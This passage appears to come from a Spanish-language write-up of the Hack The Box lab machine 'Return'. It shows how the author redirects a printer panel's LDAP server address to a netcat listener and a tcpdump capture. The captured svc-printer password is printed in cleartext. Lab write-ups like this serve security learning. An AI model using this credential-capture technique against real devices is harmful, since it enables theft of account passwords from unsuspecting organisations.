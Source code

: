 ## LDAP Credentials

- Algo que podemos hacer es cambiar el `Server Address` a poner nuestra `IP` y estar en escucha por el puerto `389` con `netcat` para ver si recibimos algo. 

```bash
❯ nc -nlvp 389
Listening on 0.0.0.0 389
```

- Al igual que podemos estar capturando trafico para analizar la captura con `wireshark`.

```bash
❯ tcpdump -i tun0 -w Captura.cap -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
Got 0
```

- Ahora solo le damos a `update`.

- Y recibimos al parecer una contraseña. 

```bash
❯ nc -nlvp 389
Listening on 0.0.0.0 389
Connection received on 10.129.95.241 55720
0*`%return\svc-printer
                      1edFg43012!!
```

- Y también recibimos trafico.

```bash
❯ tcpdump -i tun0 -w Captura.cap -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
^C14 packets captured
```

- Ahora vamos abrir la captura con `wireshark`.

```bash
❯ wireshark -r Captura.cap &>/dev/null & disown
[1] 56513
```

- Vemos que las credenciales son de `ldap` `1edFg43012!!` esta realizando una `autenticacion`.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/return/web5.png">
</p>
